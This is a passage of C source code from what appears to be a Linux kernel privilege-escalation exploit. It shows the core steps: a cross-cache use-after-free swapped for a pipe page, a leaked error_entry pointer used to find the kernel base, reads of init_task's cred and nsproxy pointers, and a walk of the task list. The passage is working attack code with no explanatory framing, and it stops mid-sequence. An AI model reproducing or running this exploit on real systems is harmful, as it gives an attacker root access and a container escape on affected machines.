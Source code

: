 ```c

    // Replace UAF file (and page) with pipe page
    write_pipe(buf);

    // Try to `lseek()` which should fail if we succeeded
    if (lseek(g_uaf_fd, 0, SEEK_SET) != -1)
    {
        printf("[!] Cross-cache failed, retrying...");
        cc_fail();
        goto retry_cc;
    }

    // Success
    info("Cross-cache succeeded");
    sleep(1);

    // Leak the `error_entry` pointer
    uint64_t error_entry = read_8_at(ERROR_ENTRY_ADDR);
    info("Leaked `error_entry` address: 0x%lx", error_entry);

    // Make sure it seems kernel-ish
    if ((uint16_t)(error_entry >> 48) != 0xFFFF)
    {
        err("Weird `error_entry` address: 0x%lx", error_entry);
    }

    // Set kernel base
    g_kern_base = error_entry - EE_OFF;
    info("Kernel base: 0x%lx", g_kern_base);

    // Read 8 bytes at that address and see if they match our signature
    uint64_t sig = read_8_at(g_kern_base);
    if (sig != KERNEL_SIGNATURE) 
    {
        err("Bad kernel signature: 0x%lx", sig);
    }

    // Set init_task
    g_init_task = g_kern_base + INIT_OFF;
    info("init_task @ 0x%lx", g_init_task);

    // Get the cred and nsproxy values
    g_cred_what = read_8_at(g_init_task + CRED_OFF);
    g_nsproxy_what = read_8_at(g_init_task + NSPROXY_OFF);

    if ((uint16_t)(g_cred_what >> 48) != 0xFFFF)
    {
        err("Weird init->cred value: 0x%lx", g_cred_what);
    }

    if ((uint16_t)(g_nsproxy_what >> 48) != 0xFFFF)
    {
        err("Weird init->nsproxy value: 0x%lx", g_nsproxy_what);
    }

    info("init cred address: 0x%lx", g_cred_what);
    info("init nsproxy address: 0x%lx", g_nsproxy_what);

    // Traverse the tasks list
    info("Traversing tasks linked list...");
    traverse_tasks();

    // Check to see if we succeeded
```